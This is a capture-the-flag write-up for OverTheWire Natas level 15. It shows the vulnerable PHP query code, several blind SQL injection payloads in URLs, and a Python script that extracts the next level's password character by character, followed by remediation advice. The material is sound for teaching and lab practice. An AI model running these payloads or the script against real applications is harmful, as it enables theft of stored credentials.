

# [Over The Wire (natas)] – [[Platform](http://natas15.natas.labs.overthewire.org/)] – [09/24/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [15]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas15
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas15.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      /*
      CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
      );
      */

      if(array_key_exists("username", $_REQUEST)) {
         $link = mysqli_connect('localhost', 'natas15', '<censored>');
         mysqli_select_db($link, 'natas15');

         $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
         if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
         }

         $res = mysqli_query($link, $query);
         if($res) {
         if(mysqli_num_rows($res) > 0) {
            echo "This user exists.<br>";
         } else {
            echo "This user doesn't exist.<br>";
         }
         } else {
            echo "Error in query.<br>";
         }

         mysqli_close($link);
      } else {
   ```
   - this roughly translates into 
  
   1. If the request contains a key for "username"
   create a database link using localhost and user natas15 and password

   2. Set query variable = select all user where username in the request

   3. If the key in the GET route exists then print out "Executing query: ..."-

   4. Then depending on the result of the query you will reply with either "it exists", "doesn't exist", or "error".

   5. Close the database connection

   
4. Steps taken:

   1. Taking into consideration that the query directly uses the username and password from the request params and that I can view a debugged version of what I am trying to submit.

   2. I attempted checking the params of `/?username=natas16&debug` this returned

   

   3. With this test result wecan identify that both the username and password get wrapped in `""`

   4. The next payload I attempted was `/?username=natas16"%20AND%20SUBSTRING(password,1,1)="a&debug`

   

   5. The next payload I attempted was `/?username=natas16"%20AND%20SUBSTRING(password,1,1)="h&debug`

   

   6. This indicates that the vulnerablity is there to guess the password on index at a time assuming the password is alphanumeric and 32 characters long. 

   7. Taking this into consideration and knowing what the expected responses are I could create a python script to attempt a combination of a-zA-Z0-9 or 36 characters. Combining this with BINARY in sql for case-sensitivity. 1152 possible combinations which makes it still very effective. 

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      # --- Configuration ---
      url = "http://natas15.natas.labs.overthewire.org/"
      auth = HTTPBasicAuth("natas15", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
      username = "natas16"
      charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

      password = ""  # will accumulate discovered characters

      # --- Loop through each position (1 to 32) ---
      for pos in range(1, 33):
         found = False
         for c in charset:
            # Build the payload (case-sensitive with BINARY)
            payload = f'{username}" AND BINARY SUBSTRING(password,{pos},1)="{c}" -- '
            print(payload)
            params = {"username": payload}
            
            # Send request
            r = requests.get(url, params=params, auth=auth)

            # Check response
            if "This user exists" in r.text:
                  password += c
                  print(f"[+] Found character {pos}: {c} | Current password: {password}")
                  found = True
                  break
         
         if not found:
            print(f"[-] No matching character found at position {pos}")
            break

      print(f"\n[!] Full password: {password}")

   ```
   
   8. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application directly inserts user input into an SQL query without proper sanitization.

   - The username parameter is vulnerable to SQL injection because it is concatenated into the query string.

   - The application returns different responses based on whether the query matches a row, allowing an attacker to infer information from the database.

   - Case-insensitive comparisons in MySQL reveal multiple possibilities unless BINARY is used for precise, case-sensitive checks.

   - The predictable 32-character alphanumeric password allows systematic, character-by-character extraction.

---

💥 **Impact**

   - An attacker can retrieve the full password of any user in the database.

   - Unauthorized access to sensitive accounts (like natas16) is possible.

   - Reveals a fundamental flaw in input handling that could be exploited on other parameters or tables.

   - Demonstrates how blind SQL injection can be used to bypass authentication controls.

   - Could potentially be extended to extract other sensitive data if the database contains additional information.

---
  
🛠️ **Remediation**

   - Always use parameterized queries or prepared statements to avoid direct string concatenation in SQL queries.

   - Validate and sanitize all user input, enforcing expected data types and lengths.

   - Limit error messages and query debug output in production to prevent information disclosure.

   - Consider enforcing case-sensitive password checks where appropriate to reduce ambiguity in comparisons.

   - Implement proper access controls and monitoring to detect unusual query patterns.
